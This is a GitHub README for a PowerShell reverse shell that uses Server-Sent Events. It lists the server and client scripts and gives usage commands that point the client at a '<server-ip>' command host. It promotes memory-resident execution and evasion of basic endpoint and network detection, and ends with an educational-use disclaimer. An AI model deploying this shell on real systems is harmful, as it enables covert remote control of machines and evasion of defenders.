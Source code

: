 # SSE Reverse Shell – The Quiet Shell No One Saw Coming

This project demonstrates a stealthy reverse shell built using native PowerShell and Server-Sent Events (SSE) — a simple HTTP-based protocol that pushes messages from server to client over a single persistent connection.

Unlike traditional reverse shells that rely on polling, sockets, or external binaries, this one uses only:

- Native PowerShell
- A single GET request
- text/event-stream over HTTP
- Memory-resident execution with minimal noise

## Components

### Start-SseServer.ps1
The SSE server:
- Listens on a specified port using raw TCP
- Pushes commands to clients via SSE
- Receives command output via HTTP POST (/post endpoint)
- Optional interactive terminal or headless mode

### Start-SseClient.ps1
The SSE client:
- Connects to the server’s /sse endpoint
- Receives commands via SSE stream
- Executes them locally and posts results back

## Usage

### Server (interactive terminal):
```
. .\Start-SseServer.ps1
Start-SseServer -Port 8080
```

### Server (headless mode):
```
Start-SseServer -Port 8080 -Headless
```

### Client:
```
. .\Start-SseClient.ps1
Start-SseClient -Uri "http://<server-ip>:8080"
```

## Features
- Fully memory-resident execution
- No need for raw sockets or polling loops
- Can bypass basic EDR/network detections
- Minimalist, stealthy, and flexible

## Screenshots


## Disclaimer

This tool is for educational and research purposes only.
Do not use this on networks or systems you do not own or have explicit permission to test.

## License

MIT License  
Author: TNCX-byte
